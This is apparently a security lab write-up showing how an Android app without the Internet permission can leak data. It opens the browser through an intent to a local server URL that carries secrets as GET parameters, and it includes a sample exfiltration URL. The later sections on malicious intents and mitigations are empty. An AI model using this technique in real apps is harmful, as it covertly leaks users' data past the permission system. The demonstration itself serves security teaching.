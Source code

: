 # 1 - No-permission apps

In this part, we will exfiltrate some data to a server, without using
the `Internet` permission.

First, we need to setup a web server. Here, it is a localhost server
running on port 3001, so its address is `10.0.2.2:3001` on the emulated
device.

Then, we populate the database on the app:

![Database content](./assets/database_content_p1.png)

When we want to exfiltrate the data, we just have to create an intent to
open our server webpage with GET parameters, like
`http://10.0.2.2:3001/?secret1=abc&secret2=def`.

In our example, the server received this:

![Server request](./assets/server_request_p1.png)

On android and iOS, apps are sandboxed and heavily restricted, as
opposed to desktop apps. If an app wants to access a private resource
(camera, location, etc), it needs to be explicitely allowed to do so by
the OS and the user. The goal is to make these apps as secure and as
privacy-aware as possible. While on desktop a simple Tetris has read and
write access to all user files, on android even a vulnerable app is
limited in its action. it also hints on illegitimate apps; for examle,
the flashlight app shouldn't require microphone access.

However, here our application uses a simple trick to bypass this
permission system. It will open the web browser on a specific page, and
while it usually is quite innocent since the webpage cannot talk back to
the app, it is enough to leak informations using GET parameters. It
should be noted however that, first, the data accessible is only our own
data, which limits the damages possible, and that this method isn't very
discreet, as the user clearly sees its browser opening.

# 2 - Malicious intents



# 3 - Protections and mitigations
